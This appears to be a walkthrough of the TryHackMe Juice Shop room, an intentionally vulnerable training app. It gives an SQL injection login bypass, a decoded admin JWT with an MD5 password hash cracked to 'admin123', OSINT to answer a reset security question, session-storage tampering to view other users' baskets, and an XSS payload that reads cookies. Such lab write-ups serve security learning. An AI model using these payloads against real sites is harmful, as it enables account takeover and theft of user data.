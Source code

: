 https://tryhackme.com/room/juiceshop

https://medium.com/@ismailtasdelen/sql-injection-payload-list-b97656cfd66b

found this generic SQL injection payload that allows us to login as admin

```
' OR 1 -- -
```

check token after logging in as admin

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsImlzQWRtaW4iOnRydWUsImxhc3RMb2dpbklwIjoiMC4wLjAuMCIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwiY3JlYXRlZEF0IjoiMjAyMC0wOC0wNSAxNTowNToyNi45MjUgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAyMC0wOC0wNSAxNTowNToyNi45MjUgKzAwOjAwIn0sImlhdCI6MTU5NjY0MDE3OSwiZXhwIjoxNTk2NjU4MTc5fQ.qHspamVYbL3fnJtoOcdh0uJz4EQU9VZQUBaMkFYChSMJmTpR07WD1wgn9G3lxxiFjUgqUwZT0JQjF2XXQ78y25qsTDMmve_MGs9b3GNcHm3yp63YzEw8VI8GtxVvfiiexlbTzO5nvMRtNin0Nymgr-Qu5K0nueSX5FMSgmKG48U
```

JOSN Web Token Decode

```
{
  "status": "success",
  "data": {
    "id": 1,
    "username": "",
    "email": "admin@juice-sh.op",
    "password": "0192023a7bbd73250516f069df18b500",
    "isAdmin": true,
    "lastLoginIp": "0.0.0.0",
    "profileImage": "default.svg",
    "createdAt": "2020-08-05 15:05:26.925 +00:00",
    "updatedAt": "2020-08-05 15:05:26.925 +00:00"
  },
  "iat": 1596640179,
  "exp": 1596658179
}
```

crackstation - md5 hash

```
admin123
```

check forgotten password page with the same email format as admin 

```
jim@juice-sh.op
```

the security question to reset jim's password is his elder sibling's middle name

check web developer > Debugger > main.js > https://beautifier.io/

found administration path

go to /#/administration

user 2 is jim

check recycling requests which lists user 2's address 

```
Starfleet HQ, 24-593 Federation Drive, San Francisco, CA
```

google this address + Jim

find Jim is short for James

search for "James T. Kirk brother"

find the answer: Samuel

dirbuster or hoverover the terms and conditions to see the ftp directory

nagivate to the ftp directory and find the first file 

```
acquisitions.md
```

web developer > storage > session storage

find Key bid and value

change value and refresh page to see other user's basket

we can execute java script by inputing into search or tracking orders

the search function is vulnerable to xss, so is the track orders page

```
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```
